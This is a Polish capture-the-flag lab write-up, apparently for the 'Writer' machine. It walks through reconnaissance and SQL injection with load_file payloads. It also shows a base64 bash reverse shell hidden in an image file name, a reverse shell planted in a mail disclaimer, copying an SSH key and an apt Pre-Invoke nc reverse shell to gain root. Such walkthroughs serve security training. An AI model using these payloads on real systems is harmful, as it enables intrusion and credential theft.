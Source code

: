 # ZTPPt

## Utworzenie połączenia z maszyną
Pobrany został plik konfiguracyjny OpenVPN na maszynę wirtualną z zainstalowanym systemem Kali Linux. Komenda do wywołania połaczenia VPN:
```
sudo openvpn lab.vpn
```

## Przebieg laboratorium
* Pierwszym krokiem było wykorzystanie oprogramowania nmap w celu rekonensanu aktywnego, użyto w tym celu komendy:
```
sudo nmap -sS -sV -sC <ip_address>
- sS - TCP SYN skan
- sV - sprawdzenie możliwosci występowania wersji oprogramowania na otwartym porcie
- sC - wykonanie podstawowych skryptów
```
Wynik skanowania

![Wynik skanowania](https://user-images.githubusercontent.com/52716721/141511219-992c3762-5266-45f4-82fd-62ae04e1c934.png)

* Biorąc pod uwagę otwarty port 80 oraz tytuł odpowiedzi z serwera HTTP, kolejne kroki będą prowadzone na stronie WWW, prezentującej się następująco
![Stronawww](https://user-images.githubusercontent.com/52716721/141511808-81ba4197-1cfd-4d19-9234-3433a15dec20.png)

* W celu znalezienia interesujących podstron, wykorzystane zostało wbudowane narzędzie wfuzz z atakiem słownikowym:
```
wfuzz -w /usr/share/wfuzz/wordlist/general/megabeast.txt -u http://10.10.11.101/FUZZ --hc 404
- w - ścieżka do słownika z podstronami
- u - adres strony z dodatkiem FUZZ w celu skanowania
- hc 404 - pominięcie podstron z odpowiedzią 404
```
Wynik skanowania wfuzz

![wfuzz](https://user-images.githubusercontent.com/52716721/141513351-5ff7381f-e698-43fc-89c7-81208a4f3e6c.png)

* Na stronie dostępny jest panel logowania administratora, pierwszym krokiem zostało sprawdzenie czy zadziała SQLi w tym celu użyto w polu loginu frazy `username ' or '1'='1`. Logowanie powiodło się, następnie wykorzystano sqlmap w celu sprawdzenia jaka jest skonfigurowana baza danych i użyto danych z formularza do logowania `uname=username'+or+'1'='1&password=test`.
Wynik prezentuje się następująco:

![image](https://user-images.githubusercontent.com/52716721/143478884-83138642-c297-49ad-b8b9-b0a13311ad73.png)

* Kolejnym krokiem była próba odczytania plików znajdujących się na maszynie, wykorzystano do tego program Burp Suite i payload `uname=username' UNION ALL SELECT NULL,load_file("/etc/apache2/sites-enabled/000-default.conf"),NULL,NULL,NULL,NULL-- -&password=test`. Odczyt pliku 000-default spowodowany jest występującym serwisem Apache, w podanym pliku konfiguruje się wirtualny host dla danej domeny, odczyt z folderu sites-avaliable mógłby nie zadziałać gdyż musi występować symlink w folderze enabled.
![image](https://user-images.githubusercontent.com/52716721/143478354-b7a9d660-18e8-4735-8002-3e3601dabfc1.png)

* Następnie odczytany został plik writer.wsgi (`uname=username' UNION ALL SELECT NULL,load_file("/var/www/writer.htb/writer.wsgi"),NULL,NULL,NULL,NULL-- -&password=test`), w którym importowany jest plik `__init__.py`.
![image](https://user-images.githubusercontent.com/52716721/143478809-566682a5-ca8f-4eb5-a72b-a2b08fc40f60.png)
![image](https://user-images.githubusercontent.com/52716721/143479464-bab8af2c-5c28-4e29-bc21-90d08b245957.png)
![image](https://user-images.githubusercontent.com/52716721/143479566-63bc8a3a-1baa-404d-bb12-aa454b7ced0a.png)

* Okazuje się, że aplikacja napisana została we Flask'u, dodając Stories poprzez panel admina, można podać dodatkowy parametr przy pomocy Burp'a `image_url`, który następnie jest przenoszony oraz otwierany co udostępnia możliwość stworzenia reverse shella. Stworzony został złośliwy plik w formacie jpg, zawierający w nazwie payload w base64 `echo -n '/bin/bash -c "/bin/bash -i >& /dev/tcp/<ip>/9091 0>&1"' | base64`. W parametrze image_url podana została ścieżka do pliku, który po zapisaniu znajduje się w folderze static `file:///var/www/writer.htb/writer/static/img/<plik>`. Wynik prezentuje się poniżej.
![image](https://user-images.githubusercontent.com/52716721/141533167-0eb874b8-da4b-470f-af05-8a3f6688f1bd.png)
![image](https://user-images.githubusercontent.com/52716721/141533062-d4f0b4b6-4639-486f-bd20-947c012012d5.png)

* Dzięki sqlmap otrzymano nazwę serwisu bazodanowego MariaDB, po udanym przejęciu sesji www-data, odnaleziony został plik konfiguracyjny mariadb.cnf, gdzie podane zostały dane do zalogowania w bazie deweloperskiej.
![image](https://user-images.githubusercontent.com/52716721/141533938-7c74d7bb-2572-46cb-9c1b-6d3e69b38044.png)

* Po udanym połączeniu z bazą odczytane zostały możliwe tabele, najciekawszą z nazwy jest auth_user, w niej znaleziony został użytkownik kyle wraz z zahashowanym hasłem.
![image](https://user-images.githubusercontent.com/52716721/143593639-a6682460-2692-498d-8c02-b000b1827bf3.png)
![image](https://user-images.githubusercontent.com/52716721/143593570-4da314d9-aa10-49db-b95c-724f8ad3a44f.png)

* W celu odczytania hasła wykorzystany został atak słownikowy z plikiem rockyou znajdującym się pod linkiem https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz oraz program hashcat, który ujawnił hasło marcoantonio
![image](https://user-images.githubusercontent.com/52716721/143597265-0dc3a738-8d06-4216-8612-f284a6a84b5a.png)

* Następnie sprawdzony został użytkownik czy jest możliwość połączenia przez ssh. Wynikiem był dostęp do jednego z użytkowników systemu.

![image](https://user-images.githubusercontent.com/52716721/144602561-4c26a048-5eaa-4fde-b787-32728e26c41a.png)

* Użytkownik należy do niestandardowej grupy filter, która jest odpowiedzialna za pliki prezentujące się na poniższym zrzucie.
![image](https://user-images.githubusercontent.com/52716721/143599339-fb5de575-7cf1-4538-8bd8-96eab3fa917c.png)

* Jako iż plik disclaimer jest wykorzystywany do podpisywania maili, dodano w nim reverse shell taki jak w przypadku pliku na stronie internetowej oraz przesłano maila z wykorzystaniem skryptu w pythonie. W folderze disclaimer znaleziony został adres, który można wykorzystać właśnie do przesłania maila.
![image](https://user-images.githubusercontent.com/52716721/144605156-a1f146cf-b493-4508-95da-f531e2ffb9d5.png)
![image](https://user-images.githubusercontent.com/52716721/144605209-7044ad3a-a873-4c82-839c-72419f0c3088.png)

![image](https://user-images.githubusercontent.com/52716721/144605193-ac75e000-499d-4180-932f-8f7f1cda4ca0.png)
* W czasie wysyłania maila, nasłuchiwany był port 9091 podany w reverse shell w pliku disclaimer, dzięki czemu uzyskany został użytkownik john. 

![image](https://user-images.githubusercontent.com/52716721/144605478-496530d0-d519-4d03-b875-6a1f7427ec16.png)

* Aby połączyć się do niego poprzez ssh, skopiowany został klucz prywatny z folderu `.ssh` użytkownika.
![image](https://user-images.githubusercontent.com/52716721/144605507-4d6e177b-6f35-4a40-b73a-b2c3f1724f88.png)

* Połączenie ssh prezentuje się następująco.
![image](https://user-images.githubusercontent.com/52716721/144605856-11d72409-960a-4db4-b594-a08a2f4a88dd.png)

* Użytkownik john również miał niestandardową grupę management i posiadał prawa do folderu apt.conf.d
![image](https://user-images.githubusercontent.com/52716721/144606016-8f5f427c-607b-4b3c-b29d-79cced652c14.png)
![image](https://user-images.githubusercontent.com/52716721/144606001-356798db-63d1-410d-80f7-bea6f41b5354.png)

* Znaleziona została możliwość eskalacji uprawnień z wykorzystaniem apt https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/ w tym celu należy przejść do podanego folderu i wykonać payload tworzący reverse shell `echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> 4444 >/tmp/f"};' > pwn`. W innym oknie nasłuchiwany został port 4444, dzięki czemu uzyskano dostęp do roota. Wynik prezentuje się następująco:
![image](https://user-images.githubusercontent.com/52716721/144607092-e7cf791d-4725-4600-8777-a2528130858d.png)

* Ostatnim krokiem było odczytanie flagi z pliku root.txt

![image](https://user-images.githubusercontent.com/52716721/144607190-4eaa5b07-7777-4eda-8404-74a5b0b4d29b.png)

